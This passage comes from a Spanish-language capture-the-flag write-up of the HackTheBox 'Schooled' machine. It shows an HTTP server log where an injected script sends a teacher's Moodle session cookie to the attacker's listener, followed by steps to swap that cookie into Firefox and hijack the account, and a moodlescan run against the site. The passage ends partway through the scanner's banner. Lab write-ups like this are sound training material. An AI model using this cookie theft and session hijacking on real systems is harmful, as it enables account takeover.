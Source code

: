 ```
# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.181.78 - - [13/Aug/2024 16:42:37] "GET /pwned.js HTTP/1.1" 200 -
10.129.181.78 - - [13/Aug/2024 16:42:38] code 404, message File not found
10.129.181.78 - - [13/Aug/2024 16:42:38] "GET /cookie=MoodleSession=bvm9utt7ot8c5ccl5fje352bef HTTP/1.1" 404 -
```

`Abrimos` el `storage` de `firefox` y `cambiamos` nuestra `cookie` de `sesión` por la `cookie` de `sesión` del `profesor`

![](/assets/img/Schooled/image_12.png)

Una vez recargamos la pagina pulsando `F5` habremos `iniciado sesión` con la `cuenta` del `profesor` efectuando un `cookie hijacking`

![](/assets/img/Schooled/image_13.png)

`Identificamos` la `versión` del `Moodle` usando `moodlescan` [https://github.com/inc0d3/moodlescan](https://github.com/inc0d3/moodlescan)

```
# python3 moodlescan.py -u http://moodle.schooled.htb/moodle

 .S_SsS_S.     sSSs_sSSs      sSSs_sSSs     .S_sSSs    S.        sSSs    sSSs    sSSs   .S_SSSs     .S_sSSs    
.SS~S*S~SS.   d%%SP~YS%%b    d%%SP~YS%%b   .SS~YS%%b   SS.      d%%SP   d%%SP   d%%SP  .SS~SSSSS   .SS~YS%%b   
S%S `Y' S%S  d%S'     `S%b  d%S'     `S%b  S%S   `S%b  S%S     d%S'    d%S'    d%S'    S%S   SSSS  S%S   `S%b  
S%S     S%S  S%S       S%S  S%S       S%S  S%S    S%S  S%S     S%S     S%|     S%S     S%S    S%S  S%S    S%S  
S%S     S%S  S&S       S&S  S&S       S&S  S%S    S&S  S&S     S&S     S&S     S&S     S%S SSSS%S  S%S    S&S  
S&S     S&S  S&S       S&S  S&S       S&S  S&S    S&S  S&S     S&S_Ss  Y&Ss    S&S     S&S  SSS%S  S&S    S&S  
S&S     S&S  S&S       S&S  S&S       S&S  S&S    S&S  S&S     S&S~SP  `S&&S   S&S     S&S    S&S  S&S    S&S  
S&S     S&S  S&S       S&S  S&S       S&S  S&S    S&S  S&S     S&S       `S*S  S&S     S&S    S&S  S&S    S&S  
S*S     S*S  S*b       d*S  S*b       d*S  S*S    d*S  S*b     S*b        l*S  S*b     S*S    S&S  S*S    S*S  
```